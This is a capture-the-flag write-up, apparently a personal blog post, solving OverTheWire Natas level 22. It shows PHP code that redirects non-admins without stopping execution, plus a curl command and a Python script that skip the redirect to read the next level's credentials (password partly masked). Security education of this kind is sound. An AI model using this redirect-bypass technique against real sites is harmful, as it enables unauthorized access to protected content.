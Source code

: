 ```yaml
---
layout: post
title:  "Natas Level 21 → Level 22"
date:   2021-05-30 13:05:34
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: You can go your own way
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
This level greets us with a link to the source code and not much else. Guess that makes it pretty clear where we should start.

```php
<?
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?> 
```

Here we see the site is looking to see variable **revelio** is passed. Here we see the site is looking to see variable revelio is passed. Next, it checks to see if we have the admin key set in our SESSION and if so is the value set to 1.  If this check fails, we’re redirected; otherwise, we continue loading this page and fall into the following code:

```php
<?
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?> 
```

All we need to do is avoid the redirect. If you have access to curl, that will provide the easiest solution as curl doesn't follow redirects by default. A Python solution is also nice and quick. For either solution, you'll need to provide the password to the current level.

### curl
```bash
curl -u natas22:c------------------------------J http://natas22.natas.labs.overthewire.org/?revelio=1
```

### Python
```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth

password = 'c------------------------------J'
session = requests.Session()
auth = HTTPBasicAuth('natas22', password)

url = 'http://natas22.natas.labs.overthewire.org/index.php?revelio'

resp = session.get(url=url, auth=auth, allow_redirects=False)
print(resp.text)
```